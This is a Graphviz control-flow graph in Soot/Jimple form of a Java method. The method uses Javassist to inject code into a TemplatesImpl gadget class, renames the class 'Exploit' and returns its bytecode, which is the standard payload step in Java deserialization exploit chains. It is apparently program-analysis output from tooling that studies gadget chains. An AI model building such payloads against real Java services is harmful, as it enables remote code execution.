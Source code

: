 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 15 ]
r0 := @parameter0: java.lang.String;
"
    "Block 1:
[preds: 0 ] [succs: 2 15 ]
r9 = staticinvoke <gadget.Gadget: java.lang.String getInsertCode(java.lang.String)>(r0);
"
    "Block 2:
[preds: 1 ] [succs: 3 15 ]
r1 = staticinvoke <javassist.ClassPool: javassist.ClassPool getDefault()>();
"
    "Block 3:
[preds: 2 ] [succs: 4 15 ]
$r2 = class \"Lgadget/TemplatesImpl1;\";
"
    "Block 4:
[preds: 3 ] [succs: 5 15 ]
$r3 = virtualinvoke $r2.<java.lang.Class: java.lang.String getName()>();
"
    "Block 5:
[preds: 4 ] [succs: 6 15 ]
r4 = virtualinvoke r1.<javassist.ClassPool: javassist.CtClass get(java.lang.String)>($r3);
"
    "Block 6:
[preds: 5 ] [succs: 7 15 ]
r5 = virtualinvoke r4.<javassist.CtClass: javassist.CtConstructor getDeclaredConstructor(javassist.CtClass[])>(null);
"
    "Block 7:
[preds: 6 ] [succs: 8 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(\"{}\");
"
    "Block 8:
[preds: 7 ] [succs: 9 15 ]
$r6 = newarray (java.lang.Object)[1];
"
    "Block 9:
[preds: 8 ] [succs: 10 15 ]
$r6[0] = r9;
"
    "Block 10:
[preds: 9 ] [succs: 11 15 ]
r10 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"{%s}\", $r6);
"
    "Block 11:
[preds: 10 ] [succs: 12 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(r10);
"
    "Block 12:
[preds: 11 ] [succs: 13 15 ]
virtualinvoke r4.<javassist.CtClass: void setName(java.lang.String)>(\"Exploit\");
"
    "Block 13:
[preds: 12 ] [succs: 14 15 ]
r7 = virtualinvoke r4.<javassist.CtClass: byte[] toBytecode()>();
"
    "Block 14:
[preds: 13 ] [succs: ]
return r7;
"
    "Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
"
    "Block 0:
[preds: ] [succs: 1 15 ]
r0 := @parameter0: java.lang.String;
"->"Block 1:
[preds: 0 ] [succs: 2 15 ]
r9 = staticinvoke <gadget.Gadget: java.lang.String getInsertCode(java.lang.String)>(r0);
";
    "Block 0:
[preds: ] [succs: 1 15 ]
r0 := @parameter0: java.lang.String;
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 1:
[preds: 0 ] [succs: 2 15 ]
r9 = staticinvoke <gadget.Gadget: java.lang.String getInsertCode(java.lang.String)>(r0);
"->"Block 2:
[preds: 1 ] [succs: 3 15 ]
r1 = staticinvoke <javassist.ClassPool: javassist.ClassPool getDefault()>();
";
    "Block 1:
[preds: 0 ] [succs: 2 15 ]
r9 = staticinvoke <gadget.Gadget: java.lang.String getInsertCode(java.lang.String)>(r0);
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 2:
[preds: 1 ] [succs: 3 15 ]
r1 = staticinvoke <javassist.ClassPool: javassist.ClassPool getDefault()>();
"->"Block 3:
[preds: 2 ] [succs: 4 15 ]
$r2 = class \"Lgadget/TemplatesImpl1;\";
";
    "Block 2:
[preds: 1 ] [succs: 3 15 ]
r1 = staticinvoke <javassist.ClassPool: javassist.ClassPool getDefault()>();
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 3:
[preds: 2 ] [succs: 4 15 ]
$r2 = class \"Lgadget/TemplatesImpl1;\";
"->"Block 4:
[preds: 3 ] [succs: 5 15 ]
$r3 = virtualinvoke $r2.<java.lang.Class: java.lang.String getName()>();
";
    "Block 3:
[preds: 2 ] [succs: 4 15 ]
$r2 = class \"Lgadget/TemplatesImpl1;\";
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 4:
[preds: 3 ] [succs: 5 15 ]
$r3 = virtualinvoke $r2.<java.lang.Class: java.lang.String getName()>();
"->"Block 5:
[preds: 4 ] [succs: 6 15 ]
r4 = virtualinvoke r1.<javassist.ClassPool: javassist.CtClass get(java.lang.String)>($r3);
";
    "Block 4:
[preds: 3 ] [succs: 5 15 ]
$r3 = virtualinvoke $r2.<java.lang.Class: java.lang.String getName()>();
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 5:
[preds: 4 ] [succs: 6 15 ]
r4 = virtualinvoke r1.<javassist.ClassPool: javassist.CtClass get(java.lang.String)>($r3);
"->"Block 6:
[preds: 5 ] [succs: 7 15 ]
r5 = virtualinvoke r4.<javassist.CtClass: javassist.CtConstructor getDeclaredConstructor(javassist.CtClass[])>(null);
";
    "Block 5:
[preds: 4 ] [succs: 6 15 ]
r4 = virtualinvoke r1.<javassist.ClassPool: javassist.CtClass get(java.lang.String)>($r3);
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 6:
[preds: 5 ] [succs: 7 15 ]
r5 = virtualinvoke r4.<javassist.CtClass: javassist.CtConstructor getDeclaredConstructor(javassist.CtClass[])>(null);
"->"Block 7:
[preds: 6 ] [succs: 8 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(\"{}\");
";
    "Block 6:
[preds: 5 ] [succs: 7 15 ]
r5 = virtualinvoke r4.<javassist.CtClass: javassist.CtConstructor getDeclaredConstructor(javassist.CtClass[])>(null);
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 7:
[preds: 6 ] [succs: 8 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(\"{}\");
"->"Block 8:
[preds: 7 ] [succs: 9 15 ]
$r6 = newarray (java.lang.Object)[1];
";
    "Block 7:
[preds: 6 ] [succs: 8 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(\"{}\");
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 8:
[preds: 7 ] [succs: 9 15 ]
$r6 = newarray (java.lang.Object)[1];
"->"Block 9:
[preds: 8 ] [succs: 10 15 ]
$r6[0] = r9;
";
    "Block 8:
[preds: 7 ] [succs: 9 15 ]
$r6 = newarray (java.lang.Object)[1];
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 9:
[preds: 8 ] [succs: 10 15 ]
$r6[0] = r9;
"->"Block 10:
[preds: 9 ] [succs: 11 15 ]
r10 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"{%s}\", $r6);
";
    "Block 9:
[preds: 8 ] [succs: 10 15 ]
$r6[0] = r9;
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 10:
[preds: 9 ] [succs: 11 15 ]
r10 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"{%s}\", $r6);
"->"Block 11:
[preds: 10 ] [succs: 12 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(r10);
";
    "Block 10:
[preds: 9 ] [succs: 11 15 ]
r10 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"{%s}\", $r6);
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 11:
[preds: 10 ] [succs: 12 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(r10);
"->"Block 12:
[preds: 11 ] [succs: 13 15 ]
virtualinvoke r4.<javassist.CtClass: void setName(java.lang.String)>(\"Exploit\");
";
    "Block 11:
[preds: 10 ] [succs: 12 15 ]
virtualinvoke r5.<javassist.CtConstructor: void setBody(java.lang.String)>(r10);
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 12:
[preds: 11 ] [succs: 13 15 ]
virtualinvoke r4.<javassist.CtClass: void setName(java.lang.String)>(\"Exploit\");
"->"Block 13:
[preds: 12 ] [succs: 14 15 ]
r7 = virtualinvoke r4.<javassist.CtClass: byte[] toBytecode()>();
";
    "Block 12:
[preds: 11 ] [succs: 13 15 ]
virtualinvoke r4.<javassist.CtClass: void setName(java.lang.String)>(\"Exploit\");
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
    "Block 13:
[preds: 12 ] [succs: 14 15 ]
r7 = virtualinvoke r4.<javassist.CtClass: byte[] toBytecode()>();
"->"Block 14:
[preds: 13 ] [succs: ]
return r7;
";
    "Block 13:
[preds: 12 ] [succs: 14 15 ]
r7 = virtualinvoke r4.<javassist.CtClass: byte[] toBytecode()>();
"->"Block 15:
[preds: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 ] [succs: ]
$r8 := @caughtexception;
r11 = $r8;
virtualinvoke r11.<java.lang.Exception: void printStackTrace()>();
return null;
";
}
